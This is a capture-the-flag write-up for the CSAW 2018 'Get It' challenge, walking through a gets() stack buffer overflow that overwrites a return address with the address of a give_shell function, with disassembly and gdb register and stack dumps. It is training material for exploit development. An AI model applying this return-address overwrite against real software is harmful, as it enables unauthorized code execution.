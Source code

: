 # Csaw18 Get It

When you launch the binary you see a prompt with the question "Do you gets it?", with a buffer waiting for user input. I entered "yes" and the program exited:

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/CallFunction/Getit$ ./get_it
Do you gets it??
yes

```

From the question at the prompt I expect there to be an issue with the `gets` function in this binary. Let's take a look at the binary compilation security protections:

```bash
usage: pwn checksec [-h] [--file [elf ...]] [elf ...]
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/CallFunction/Getit$ file get_it && checksec get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
[*] '/home/root-at-iyn/Nightmare/BufferOverflow/CallFunction/Getit/get_it'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No

```

From the output it looks like this is a 64-bit binary with NX enabled as the only protection. I'll take a look at the disassembly to get an idea of what is happening under the hood: 

```bash
gef➤  disass main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:	push   rbp
   0x00000000004005c8 <+1>:	mov    rbp,rsp
   0x00000000004005cb <+4>:	sub    rsp,0x30
   0x00000000004005cf <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:	mov    edi,0x40068e
   0x00000000004005db <+20>:	call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:	mov    eax,0x0
   0x00000000004005f6 <+47>:	leave
   0x00000000004005f7 <+48>:	ret
End of assembler dump.

```

This is a very short program. We see:
- Initial args to main moved to rbp-0x24 and rbp-0x30
- The call to puts uses data from the binary at location 0x40068e
- The call to gets uses rbp-0x20 as the buffer where the input will be stored

At this point its clear we'll be able to overwrite the return address after sending 40 bytes + whatever address we provide. The question is what other functions exist in the binary? We could check this in Ghidra, but considering the binary is small enough we can just use Objdump: 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Nightmare/BufferOverflow/CallFunction/Getit$ objdump -M intel -d get_it

get_it:     file format elf64-x86-64


Disassembly of section .init:

0000000000400438 <_init>:
  400438:	48 83 ec 08          	sub    rsp,0x8
  40043c:	48 8b 05 b5 0b 20 00 	mov    rax,QWORD PTR [rip+0x200bb5]        # 600ff8 <__gmon_start__>
  400443:	48 85 c0             	test   rax,rax
  400446:	74 05                	je     40044d <_init+0x15>
  400448:	e8 63 00 00 00       	call   4004b0 <__gmon_start__@plt>
  40044d:	48 83 c4 08          	add    rsp,0x8
  400451:	c3                   	ret

------- SNIP -----------
00000000004005b6 <give_shell>:
  4005b6:	55                   	push   rbp
  4005b7:	48 89 e5             	mov    rbp,rsp
  4005ba:	bf 84 06 40 00       	mov    edi,0x400684
  4005bf:	e8 bc fe ff ff       	call   400480 <system@plt>
  4005c4:	90                   	nop
  4005c5:	5d                   	pop    rbp
  4005c6:	c3                   	ret
----- END SNIP ---------
```

When we look at the text section of the binary we can see another function named `give_shell` at 0x4005b6. This is what we needed! If we can overwrite the return address with this we'll solve the challenge. I'll test the theory by writing a python script and debugging the execution through gdb.



When we run the script with the payload breaking at main+46, we can see that the return address now holds 0x4005b6. 

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fff31916080  →  0x4141414141414141 ("AAAAAAAA"?)
$rbx   : 0x0
$rcx   : 0x00007f2469a1aaa0  →  0x00000000fbad2088
$rdx   : 0x1
$rsp   : 0x00007fff31916070  →  0x00007fff319161b8  →  0x00007fff31917400  →  "./get_it"
$rbp   : 0x00007fff319160a0  →  0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x1
$rdi   : 0x00007f2469a1ca80  →  0x0000000000000000
$rip   : 0x00000000004005f1  →  <main+002a> mov eax, 0x0
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x346
$r12   : 0x00007fff319161b8  →  0x00007fff31917400  →  "./get_it"
$r13   : 0x00000000004005c7  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x00007f2469c49040  →  0x00007f2469c4a2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────── stack ────
0x00007fff31916070│+0x0000: 0x00007fff319161b8  →  0x00007fff31917400  →  "./get_it"	 ← $rsp
0x00007fff31916078│+0x0008: 0x0000000100000000
0x00007fff31916080│+0x0010: 0x4141414141414141	 ← $rax
0x00007fff31916088│+0x0018: 0x4141414141414141
0x00007fff31916090│+0x0020: 0x4141414141414141
0x00007fff31916098│+0x0028: 0x4141414141414141
0x00007fff319160a0│+0x0030: 0x4141414141414141	 ← $rbp
0x00007fff319160a8│+0x0038: 0x00000000004005b6  →  <give_shell+0000> push rbp
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005e4 <main+001d>      mov    rdi, rax
     0x4005e7 <main+0020>      mov    eax, 0x0
     0x4005ec <main+0025>      call   0x4004a0 <gets@plt>
 →   0x4005f1 <main+002a>      mov    eax, 0x0
     0x4005f6 <main+002f>      leave
     0x4005f7 <main+0030>      ret
     0x4005f8                  nop    DWORD PTR [rax+rax*1+0x0]
     0x400600 <__libc_csu_init+0000> push   r15
     0x400602 <__libc_csu_init+0002> push   r14
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "get_it", stopped 0x4005f1 in main (), reason: TEMPORARY BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005f1 → main()
────────────────────────────────────────────────────────────────────────────────
gef➤  x/10gx $rsp
0x7fff31916070:	0x00007fff319161b8	0x0000000100000000
0x7fff31916080:	0x4141414141414141	0x4141414141414141
0x7fff31916090:	0x4141414141414141	0x4141414141414141
0x7fff319160a0:	0x4141414141414141	0x00000000004005b6
0x7fff319160b0:	0x0000000000000000	0x00000000004005c7
gef➤  info frame
Stack level 0, frame at 0x7fff319160b0:
 rip = 0x4005f1 in main; saved rip = 0x4005b6
 Arglist at 0x7fff319160a0, args:
 Locals at 0x7fff319160a0, Previous frame's sp is 0x7fff319160b0
 Saved registers:
  rbp at 0x7fff319160a0, rip at 0x7fff319160a8

```

If we continue to step through the instructions we can see that execution successfully moves into the the give_shell function. Unfortunately I did not get a shell, although this is the intended solution, but this is down to an issue with later Ubuntu versions (I'm on 22.04 LTS). The gbd trace upto the call to system is shown below:

```bash
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x000074536fa1aaa0  →  0x00000000fbad2088
$rdx   : 0x1
$rsp   : 0x00007ffc8ea44718  →  "AAAAAAAA"
$rbp   : 0x00007ffc8ea44718  →  "AAAAAAAA"
$rsi   : 0x1
$rdi   : 0x0000000000400684  →  "/bin/bash"
$rip   : 0x00000000004005bf  →  <give_shell+0009> call 0x400480 <system@plt>
$r8    : 0x0
$r9    : 0x0
$r10   : 0x77
$r11   : 0x346
$r12   : 0x00007ffc8ea44828  →  0x00007ffc8ea45400  →  "./get_it"
$r13   : 0x00000000004005c7  →  <main+0000> push rbp
$r14   : 0x0
$r15   : 0x000074536fc18040  →  0x000074536fc192e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────── stack ────
0x00007ffc8ea44718│+0x0000: "AAAAAAAA"	 ← $rsp, $rbp
0x00007ffc8ea44720│+0x0008: 0x0000000000000000
0x00007ffc8ea44728│+0x0010: 0x00000000004005c7  →  <main+0000> push rbp
0x00007ffc8ea44730│+0x0018: 0x0000000100000000
0x00007ffc8ea44738│+0x0020: 0x00007ffc8ea44828  →  0x00007ffc8ea45400  →  "./get_it"
0x00007ffc8ea44740│+0x0028: 0x0000000000000000
0x00007ffc8ea44748│+0x0030: 0xab39c2c12fb9953b
0x00007ffc8ea44750│+0x0038: 0x00007ffc8ea44828  →  0x00007ffc8ea45400  →  "./get_it"
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005b6 <give_shell+0000> push   rbp
     0x4005b7 <give_shell+0001> mov    rbp, rsp
     0x4005ba <give_shell+0004> mov    edi, 0x400684
 →   0x4005bf <give_shell+0009> call   0x400480 <system@plt>
   ↳    0x400480 <system@plt+0000> jmp    QWORD PTR [rip+0x200b9a]        # 0x601020 <system@got.plt>
        0x400486 <system@plt+0006> push   0x1
        0x40048b <system@plt+000b> jmp    0x400460
        0x400490 <__libc_start_main@plt+0000> jmp    QWORD PTR [rip+0x200b92]        # 0x601028 <__libc_start_main@got.plt>
        0x400496 <__libc_start_main@plt+0006> push   0x2
        0x40049b <__libc_start_main@plt+000b> jmp    0x400460
─────────────────────────────────────────────────────── arguments (guessed) ────
system@plt (
   $rdi = 0x0000000000400684 → "/bin/bash"
)
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "get_it", stopped 0x4005bf in give_shell (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005bf → give_shell()
──────────────────────────────────────────────────────
```
